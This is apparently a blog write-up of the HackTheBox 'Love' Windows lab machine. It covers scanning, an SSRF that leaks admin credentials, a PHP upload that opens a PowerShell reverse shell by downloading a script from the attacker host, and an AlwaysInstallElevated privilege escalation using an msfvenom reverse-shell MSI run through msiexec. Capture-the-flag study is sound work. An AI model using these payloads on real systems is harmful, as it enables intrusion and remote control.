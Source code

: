 ```yaml
---
title: "Love"
date: 2021-08-17 01:25:00 +0530
categories: [HackTheBox, Windows Machines]
tags: [windows, ssrf, lfi, image-upload, alwaysinstallelevated, hackthebox]
image: /assets/img/Posts/Love/Love.png
---
```

**Love** is an easy box, Awesome for beginners. Starts with a **SSRF** to access a **forbidden page** meant to be accessed **locally** which **leaks credentials** for a Voting system. That voting system allows anyone to upload images. By **exploiting upload** functionality, I achieve RCE. Finally, I get system by **abusing AlwaysInstallElevated**.
# Masscan + Nmap
```bash
$ masscan -p1-65535,U:1-65535  10.10.10.239  --rate=10000 -e tun0 | tee masscan.out

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2021-07-01 10:05:53 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 445/tcp on 10.10.10.239
Discovered open port 3306/tcp on 10.10.10.239
Discovered open port 49670/tcp on 10.10.10.239
Discovered open port 135/tcp on 10.10.10.239
Discovered open port 5000/tcp on 10.10.10.239
Discovered open port 49666/tcp on 10.10.10.239
Discovered open port 49668/tcp on 10.10.10.239
Discovered open port 139/tcp on 10.10.10.239
Discovered open port 7680/tcp on 10.10.10.239
Discovered open port 80/tcp on 10.10.10.239
Discovered open port 49665/tcp on 10.10.10.239
Discovered open port 49664/tcp on 10.10.10.239
Discovered open port 443/tcp on 10.10.10.239
Discovered open port 5986/tcp on 10.10.10.239
Discovered open port 5040/tcp on 10.10.10.239
Discovered open port 5985/tcp on 10.10.10.239
Discovered open port 49669/tcp on 10.10.10.239
Discovered open port 47001/tcp on 10.10.10.239
Discovered open port 49667/tcp on 10.10.10.239
```
Parse those ports to nmap:
```bash
$ ports=$(cat masscan.out |awk '{ print $4 }' | sed 's/\/tcp//' | tr '\n' ',' | sed 's/,$//')
$ nmap -sVC -v --min-rate 1000 -p $ports 10.10.10.239 -oN nmap-fullscan.out
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Secure file scanner
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
445/tcp   open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings:
|   NULL:
|_    Host '10.10.14.5' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Not valid before: 2021-04-11T14:39:19
|_Not valid after:  2024-04-10T14:39:19
|_ssl-date: 2021-07-01T10:37:43+00:00; +21m33s from scanner time.
| tls-alpn:
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
```
- We get `staging.love.htb` & `love.htb` through https certificate shown in the nmap output.
- Port 5000 hosting a http server is forbidden.
- MySQL server is running on port 3306.

# Foothold
Port 80 and 443 host the same content, showing a login page of voting system:
![love-1.png](/assets/img/Posts/Love/love-1.png)
Whereas http://staging.love.htb/ shows something else:
![love-2.png](/assets/img/Posts/Love/love-2.png)

## Directory brute-forcing
Directory brute-forcing on http://10.10.10.239/ gives us an admin panel with the same login page.
```bash
ffuf -u http://10.10.10.239/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -mc 200,204,301,302,307

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.239/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307
________________________________________________

admin                   [Status: 301, Size: 337, Words: 22, Lines: 10]
images                  [Status: 301, Size: 338, Words: 22, Lines: 10]
includes                [Status: 301, Size: 340, Words: 22, Lines: 10]
plugins                 [Status: 301, Size: 339, Words: 22, Lines: 10]
Admin                   [Status: 301, Size: 337, Words: 22, Lines: 10]
Images                  [Status: 301, Size: 338, Words: 22, Lines: 10]
.                       [Status: 200, Size: 4388, Words: 654, Lines: 126]
Includes                [Status: 301, Size: 340, Words: 22, Lines: 10]
ADMIN                   [Status: 301, Size: 337, Words: 22, Lines: 10]
dist                    [Status: 301, Size: 336, Words: 22, Lines: 10]
IMAGES                  [Status: 301, Size: 338, Words: 22, Lines: 10]
```

## staging.love.htb
There's a file scanning feature in beta: http://staging.love.htb/beta.php 
![love-3.png](/assets/img/Posts/Love/love-3.png)


Trying for SSRF straight-away:
- Started a python http server on port 8000
- Gave http://my-tun0-ip:8000 
- Received callbacks.

Trying for code-execution through SSRF:
- Made a php file with ``<?phpinfo();?>`` and tried to fetch it, no code executed, just displayed the contents of the file.

Trying to access that forbidden internal port 5000 gives:
- ``admin:@LoveIsInTheAir!!!!``

![love-4.png](/assets/img/Posts/Love/love-4.png)

## Admin panel on voting system
``admin:@LoveIsInTheAir!!!!`` works on http://10.10.10.239/admin/ 
![love-5.png](/assets/img/Posts/Love/love-5.png)

The Voters List and profile edit section allows us to upload an image. 
Uploading a php script instead of an image works!
![love-6.png](/assets/img/Posts/Love/love-6.png)

## Reverse shell as phoebe
Uploaded a php script to get reverse-shell with `Invoke-PowerShellTcp`:
```php
<?php exec("powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.5/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 4444"); ?>
```
Access the script at /images, start a http-server and get rev-shell:
![love-7.png](/assets/img/Posts/Love/love-7.png)

# Privesc via AlwaysInstallElevated
Fetch winpeas binary with `Invoke-WebRequest`:
```powershell
PS C:\xampp\htdocs\omrs\images> iwr http://10.10.14.5/peas/winpeasany.exe -o winpeas.exe
```
Executing winpeas gives:
![love-8.png](/assets/img/Posts/Love/love-8.png)

If these 2 registers (`HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer` and `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`) are enabled (value is 0x1), then users of any privilege can install (execute) msi files as `NT AUTHORITY\SYSTEM`.

1. Generate a reverse shell spawning msi file with msfvenom:
	```bash
	msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f msi -o revshell.msi
	```
2. Setup a http listener with access to that `revshell.msi` file and execute that `revshell.msi` using `msiexec`:
	```powershell
	msiexec /q /i http://10.10.14.5/revshell.msi
	```
	OR
	Transfer `revshell.msi` and execute it: `.\revshell.msi`
![love-9.png](/assets/img/Posts/Love/love-9.png)

